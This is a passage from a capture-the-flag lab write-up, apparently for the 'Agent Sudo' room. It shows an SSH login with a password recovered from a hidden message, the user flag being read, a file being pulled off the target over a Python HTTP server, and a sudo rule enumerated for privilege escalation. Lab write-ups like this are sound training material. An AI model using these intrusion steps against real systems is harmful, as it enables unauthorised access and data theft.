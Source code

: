 So let's cat it :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/AgentSudo]
└─$ cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
                                                    
```

We have another username for J and another password, probably ssh.

First we try cred in ftp but no.

# SSH

We don't have anonymous access in [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) .

Now we can access with the credentials found :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/AgentSudo]
└─$ ssh james@sudo.thm        
james@sudo.thm's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7

```

I want the jpg i think i found another password so i open a server on target machine and access it through mine :

```
james@agent-sudo:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Now we go there and dwonload it, then we do a quick search for it .

# Privilege Escalation

we check for sudo -l for the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) :

```
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

```
